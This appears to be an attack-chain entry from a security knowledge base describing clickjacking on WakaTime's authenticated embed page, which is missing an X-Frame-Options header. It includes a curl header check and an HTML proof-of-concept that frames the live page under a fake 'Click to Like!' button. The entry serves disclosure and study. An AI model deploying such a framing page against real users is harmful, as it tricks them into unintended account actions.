

---
tags:
  - clickjacking
  - x-frame-options
  - ui-redressing
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-WakaTime-Embed-Page]]'
  - '[[procedures/Inspect-and-Demonstrate-Clickjacking]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:28:12.351Z'
description: >-
  Demonstrates a clickjacking vulnerability on the WakaTime authenticated embed
  page due to missing X-Frame-Options header, allowing UI redressing attacks on
  users.
skill_level: beginner
impact_level: medium
id: 5c60b657-930b-465b-bf7b-2069c8e49a21
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Clickjacking on WakaTime Authenticated Embed Page

Multi-stage attack chain demonstrating a complete attack workflow for exploiting clickjacking on an authenticated WakaTime page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- [[commands/curl-check-headers]]

### Target Environment

- Web platform
- Access to https://wakatime.com/share/embed (authenticated session required)
- Local HTML file creation capability

### Initial Access Requirements

- Authenticated user account on WakaTime
- Network access to the target URL
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Access Target Page
procedure: [[procedures/Access-WakaTime-Embed-Page]]

**Objective**: Navigate to the vulnerable authenticated page to prepare for vulnerability inspection.

**Instructions**: Open a web browser and log in to your WakaTime account if not already authenticated. Then, navigate directly to the target embed page.

**Expected Output**: The page loads successfully, displaying shared code information or dashboard elements.

**Success Indicators**:
- Page accessible without errors
- Authenticated session confirmed (e.g., user-specific content visible)

### Step 2: Inspect and Demonstrate Clickjacking
procedure: [[procedures/Inspect-and-Demonstrate-Clickjacking]]

**Objective**: Verify the absence of X-Frame-Options header and demonstrate the ability to embed the page in an external iframe, enabling UI redressing.

**Instructions**: First, use [[commands/curl-check-headers]] to inspect the response headers:

```bash
curl -I https://wakatime.com/share/embed
```

Look for the absence of `X-Frame-Options` in the output. Then, create a local HTML file (e.g., demo.html) with the following content to test embedding:

```html
<!DOCTYPE html>
<html>
<head><title>Clickjacking Demo</title></head>
<body>
  <h1>Click Here to 'Like' (Trick)</h1>
  <iframe src="https://wakatime.com/share/embed" width="800" height="600" style="opacity: 0.5; position: absolute; top: 0; left: 0;"></iframe>
  <button style="position: absolute; top: 100px; left: 100px; z-index: 1;">Click to Like!</button>
</body>
</html>
```

Open the HTML file in a browser. The iframe should load the target page without restrictions, overlaying a fake button to trick clicks.

**Expected Output**: Headers show no X-Frame-Options; iframe embeds successfully, allowing overlay of UI elements.

**Success Indicators**:
- No X-Frame-Options in curl output
- Target page loads in iframe from local file
- Potential for click overlay confirmed

## Attack Chain Summary

### Key Achievements

1. Confirmed missing frame protection on authenticated page
2. Demonstrated embedding capability for UI redressing
3. Highlighted risk of tricking users into unintended dashboard actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
